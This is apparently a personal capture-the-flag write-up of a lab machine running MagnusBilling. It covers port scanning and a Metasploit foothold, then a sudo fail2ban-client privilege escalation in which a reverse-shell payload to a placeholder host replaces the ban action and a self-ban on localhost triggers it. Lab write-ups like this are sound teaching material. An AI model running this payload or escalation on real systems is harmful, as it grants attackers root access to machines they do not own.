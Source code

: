 # **BILING**

***
Difficulty: Easy

![](https://i.imgur.com/b0ZPJey.png)

***

***
I started this box with `Pull up` by Legendary ZerryDL after been away from boxes for a while due to personal reasons

<iframe style="border-radius:12px" src="https://open.spotify.com/embed/track/4bMbA8VYJMC2QKJYH8PDpr?utm_source=generator" width="100%" height="352" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>

***


Another night to pull up againn, We go againnnnn

Ion know what this box is all about what we are about to find out innit 

As we know the first thing is to get our nmap rolling 

```
nmap -p- -T4 -v --min-rate=1000 -sCV 10.10.228.118 -oN nmap.txt -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 21:09 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating SYN Stealth Scan at 21:09
Scanning biling.thm (10.10.228.118) [65535 ports]
Discovered open port 22/tcp on 10.10.228.118
Discovered open port 80/tcp on 10.10.228.118
Discovered open port 3306/tcp on 10.10.228.118
Increasing send delay for 10.10.228.118 from 0 to 5 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.228.118 from 5 to 10 due to max_successful_tryno increase to 6
Warning: 10.10.228.118 giving up on port because retransmission cap hit (6).
SYN Stealth Scan Timing: About 41.60% done; ETC: 21:10 (0:00:44 remaining)
Discovered open port 5038/tcp on 10.10.228.118
Completed SYN Stealth Scan at 21:11, 87.03s elapsed (65535 total ports)
Initiating Service scan at 21:11
Scanning 4 services on biling.thm (10.10.228.118)
Completed Service scan at 21:11, 7.01s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.228.118.
Initiating NSE at 21:11
Completed NSE at 21:11, 5.33s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 1.07s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Nmap scan report for biling.thm (10.10.228.118)
Host is up (0.23s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://biling.thm/mbilling/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.13 seconds
           Raw packets sent: 86086 (3.788MB) | Rcvd: 76850 (3.255MB)


```


Lots of endpoints are located hereee, this is looking good alreadyyyy

From the nmap scan, we discovered that they are 3 ports opened (22, 80, 3395, 5038)

Let us start our directory search too while enumerating the website

![](https://i.imgur.com/qDY7x28.png)


Now over to the website

![](https://i.imgur.com/wBc6AO8.png)


Let us go back to our directory fuzzing

![](https://i.imgur.com/9bCVgpV.png)

From there we were able to find the endpoint /robots.txt which still takes us to the login page

So, let us try to get another thing

Let us try enumerating the mysql

Enumerating this left us with no luck either.......

So I just went ahead googling to see if there is and exploit for magnus billing CMS. Lo and behold there is an exploit for that...

We are going to be using metasplot this time around

![](https://i.imgur.com/Rc91tj1.png)


Bankaiii, we have initial access as seen below

![](https://i.imgur.com/mXjjRs4.png)

Let us now go to find user flag

![](https://i.imgur.com/GZyX84g.png)

Our work is halfdone, now let us go all in for the root flag

So, now in this part root is kinda trickyyyyy but imma still explain to the best of my knowledge

So after getting user flag, the first thing I always do is to try `sudo -l` to have a list of things that this user can do and this time was not in any way different

After running the command, the following was that I got

```
Matching Defaults entries for asterisk on Billing: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

Runas and Command-specific defaults for asterisk: Defaults!/usr/bin/fail2ban-client !requiretty 

User asterisk may run the following commands on Billing: (ALL) NOPASSWD: /usr/bin/fail2ban-client

```

From here all I knew was to abuse fail2ban to pop root shell and https://juggernaut-sec.com/fail2ban-lpe/ was the blog that helped me out

With all of this information, I crafted the following command:
```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"

```

This command modifies the `actionban` rule for the `sshd` jail, replacing the default IP banning action with a reverse shell payload. Normally, Fail2Ban executes the `iptables-multiport` action to ban IP addresses attempting brute-force attacks. However, by injecting my command, I ensure that instead of banning an IP, Fail2Ban will execute my reverse shell.

After modifying the `actionban` rule, I set up a listener on my machine to catch the reverse shell connection.

Lastly, I executed the following command:
```
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

This command is typically used to manually ban an IP address using Fail2Ban. However, since I had previously modified the `actionban` rule to execute my reverse shell payload instead of banning an IP, running this command triggered the exploit. I used `127.0.0.1` because it is the **localhost IP address**, meaning the machine essentially "bans itself." Since Fail2Ban is configured to execute the `actionban` command whenever an IP is banned, triggering the ban on `127.0.0.1` ensures that the malicious command runs immediately on the same system without external dependencies.

BecauseFail2Ban runs with elevated privileges, the shell was spawned with **root** access, successfully granting me full control over the system.

![](https://i.imgur.com/posPY62.png)

With the root shell successfully obtained, I navigated to the `/root` directory and accessed the final flag!

![](https://i.imgur.com/VlS9ATs.png)


<button onclick="window.location.href='https://R3D-Z3E.github.io';">Back To Home螥</button>
